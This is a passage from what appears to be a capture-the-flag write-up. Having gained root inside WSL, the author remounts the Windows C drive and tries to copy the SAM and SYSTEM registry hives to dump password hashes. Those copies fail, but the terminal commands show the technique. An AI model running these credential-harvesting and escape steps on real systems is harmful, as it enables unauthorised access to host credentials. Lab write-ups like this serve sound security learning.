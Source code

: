With root privileges, we now have a better chance of escaping the WSL environment and onto the host OS. I tried to navigate to the host filesystem under ```/mnt```. It contains a mount to the C drive, but it's empty...

```
root@DEV-DATASCI-JUP:/home/dev-datasci/datasci-team# ls -al /mnt
ls -al /mnt
total 0
drwxr-xr-x 1 root root 4096 Aug 25  2022 .
drwxr-xr-x 1 root root 4096 Aug 25  2022 ..
drwxrwxrwx 1 root root 4096 Aug 25  2022 c
root@DEV-DATASCI-JUP:/home/dev-datasci/datasci-team# ls -al /mnt/c
ls -al /mnt/c
total 0
drwxrwxrwx 1 root root 4096 Aug 25  2022 .
drwxr-xr-x 1 root root 4096 Aug 25  2022 ..
```

Since we are root, we can remount the filesystem.

```
root@DEV-DATASCI-JUP:/home/dev-datasci/datasci-team# sudo mount -t drvfs C: /mnt/c
sudo mount -t drvfs C: /mnt/c
root@DEV-DATASCI-JUP:/home/dev-datasci/datasci-team# ls -al /mnt/c
ls -al /mnt/c
ls: cannot read symbolic link '/mnt/c/Documents and Settings': Permission denied
ls: cannot access '/mnt/c/pagefile.sys': Permission denied
ls: '/mnt/c/System Volume Information': Permission denied
total 0
drwxrwxrwx 1 root root 4096 Aug 25  2022 $Recycle.Bin
drwxrwxrwx 1 root root 4096 Mar 14  2023 .
drwxr-xr-x 1 root root 4096 Aug 25  2022 ..
lrwxrwxrwx 1 root root   12 Aug 25  2022 Documents and Settings
drwxrwxrwx 1 root root 4096 Aug 25  2022 PerfLogs
drwxrwxrwx 1 root root 4096 Aug 25  2022 Program Files
drwxrwxrwx 1 root root 4096 Aug 25  2022 Program Files (x86)
drwxrwxrwx 1 root root 4096 Mar 13  2023 ProgramData
drwxrwxrwx 1 root root 4096 Aug 25  2022 Recovery
d--x--x--x 1 root root 4096 Aug 25  2022 System Volume Information
drwxrwxrwx 1 root root 4096 Aug 25  2022 Users
drwxrwxrwx 1 root root 4096 Mar 13  2023 Windows
drwxrwxrwx 1 root root 4096 Dec 22 19:56 datasci-team
-????????? ? ?    ?       ?            ? pagefile.sys
```

I tried to find ways to pivot to the host environment like copying the ```HKLM\SAM``` and ```HKLM\SYSTEM``` registries to dump local SAM hashes and searching for credentials in files. Unfortunately, all of these lead nowhere.[^1]

[^1]: You can read still the flags here, but AFAIK getting command execution on Windows isn't possible from the mounted filesystem.

```
root@DEV-DATASCI-JUP:/home/dev-datasci/datasci-team# cp /mnt/c/Windows/System32/config/SAM /tmp/sam
cp /mnt/c/Windows/System32/config/SAM /tmp/sam
cp: cannot open '/mnt/c/Windows/System32/config/SAM' for reading: Permission denied
root@DEV-DATASCI-JUP:/home/dev-datasci/datasci-team# cp /mnt/c/Windows/System32/config/SYSTEM /tmp/system
cp /mnt/c/Windows/System32/config/SYSTEM /tmp/system
cp: cannot open '/mnt/c/Windows/System32/config/SYSTEM' for reading: Permission denied
```
